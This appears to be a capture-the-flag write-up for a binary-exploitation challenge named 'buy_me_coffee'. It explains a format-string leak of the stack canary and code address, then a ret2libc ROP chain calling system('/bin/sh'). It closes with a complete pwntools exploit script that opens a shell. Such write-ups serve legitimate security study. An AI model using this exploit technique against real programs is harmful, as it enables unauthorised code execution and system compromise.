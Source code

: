# Reverse

Firstly we run `checksec` on the binary.

![[Pasted image 20240929131928.png]]

We see that we have all the important protections enabled. Quite scarry at first sight right?

We load up the binary in Ghidra and the execution flow reaches this function, `coffee()`

![[Pasted image 20240929132209.png]]

We see that indeed we have a canary and a buffer of 24 bytes on the stack. But on line `15` we see the vulnerability an `fread()` call that reads up to 80 characters in the buffer (including null bytes).

# Pwning

## Bypass Canary and PIE

How do we bypass the stack canary though to redirect the execution flow? Only if we could leak things from the stack. 

Luckily we can, on line 12 there is a `printf()` Format String Vulnerability, this allows us to leak contents from the stack including the canary.

By using `%n$lX` we can print the n-th argument passed to `printf()`. Let's look at the calling convention on `x86-64`.
![[Pasted image 20240929133412.png]]

We see that on Linux we pass the parameters in the following order:
- RDI
- RSI
- RDX
- RCX
- R8
- R9
- Stack

So **RDI** will be at offset 0, **RSI** at offset 1 and so on, this means that the first argument from the stack is at offset 6. Let's take a look at the stack when we enter the `printf()` function.

![[Pasted image 20240929133657.png]]

We see that at `rsp+0x08` we have the 6th argument passed to `printf()`, our string. At `rsp+32` which is the `9th` argument passed to `printf()` we have the stack canary. 
Moreover at `rbp+0x08` or at `rsp+48` or the `11th` argument on the stack we have the return address of the `printf()` call, which returns in main, in `main+78` to be more specific.

So by supplying `%9$lX %11$lX` as input to the `printf()` function we will get these two values separated by a space.

```
[*] Output  FA221527F3AC6B00 56555153C332
```

Now we can safely overwrite the return address and redirect the execution flow. We can perform a `ret2libc` attack. The simplest way to do so is to call `system()` with the argument of `/bin/sh`. 

Following the syscall convention of x86-64 we need to pass the address of `/bin/sh`(the **libc** contains the string `/bin/sh`) by the **RDI** register. 

## Ret2libc

We use `ROPgadget` to find the `pop rdi ; ret` and we find one.
![[Pasted image 20240929134909.png]]
We cannot just jump to the gadget's location because remember the binary is compiled as **PIE** enabled. So we need to calculate where to jump based on the leaked `main+78` address and the offset between `main+78` and the gadget in the code.

```python
#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
```

The script also outputs the address of the `printf()` function from libc and we also received the library used by the challenge (2.31). Using these two we can pinpoint the version used by the binary exactly using **libc-database**. In this case it is `libc6_2.31-0ubuntu9.9_amd64`.

![[Pasted image 20240929140201.png]]

From here we calculate the offsets to the string `/bin/sh` and `system()`.
```python
system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D
```

## Exploit
We chain everything together and let's do not forget of the extra `ret` needed for the `MOVAPS` instruction.

```python
from pwn import *
import logging

context.log_level='DEBUG'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb_script = f"""
"""

io = gdb.debug('./buy_me_coffee_patched', gdbscript = gdb_script)
#io = remote("34.159.156.124", 32123)

output = io.recvuntil('$')

io.sendline('%9$lX %11$lX') # 9 canary; 11 main+78

output = io.clean(timeout=1)

log.info("Output " + output.decode())
log.success("Canary: " + output.decode().split(' ')[1])
log.success("Main78:" + output.decode().split('W')[0].split(' ')[2])
log.success("Code base: " + str(hex(int(output.decode().split('W')[0].split(' ')[2], 16) - 0x1332)))

canary = int(output.decode().split(' ')[1], 16)
main78 = int(output.decode().split('W')[0].split(' ')[2], 16)
  
printfAddr = int(output.decode().split(' ')[5].split('\n')[0], 16)
log.success("Printf address: "+ output.decode().split(' ')[5].split('\n')[0])

system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D

#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
just_a_ret = main78 - 0x10c

payload = b'A' * 24
payload += p64(canary)
payload += b'B' * 8     #skip saved RBP

payload += p64(just_a_ret)
payload += p64(rop_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

io.sendline(payload)
io.interactive()
```

## Flag

Last we run it on remote and get the flag! :)
![[Pasted image 20240929142109.png]]
